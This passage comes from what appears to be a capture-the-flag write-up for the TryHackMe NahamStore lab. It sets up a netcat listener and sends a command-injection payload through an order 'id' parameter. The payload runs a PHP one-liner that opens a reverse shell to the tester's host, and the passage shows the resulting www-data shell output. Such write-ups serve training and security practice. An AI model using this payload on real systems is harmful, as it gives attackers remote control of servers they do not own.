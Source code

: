 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a60.png)

**To get a reverse shell, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Send a PHP reverse shell: (Generated from https://www.revshells.com/)

**Payload:**
```
what=order&id=5$(php+-r+'$sock%3dfsockopen("10.18.61.134",443)%3bexec("/bin/bash+<%263+>%263+2>%263")%3b')
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.46.5] 48502
whoami;hostname;id;ip a
www-data
2431fe29a4b0
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

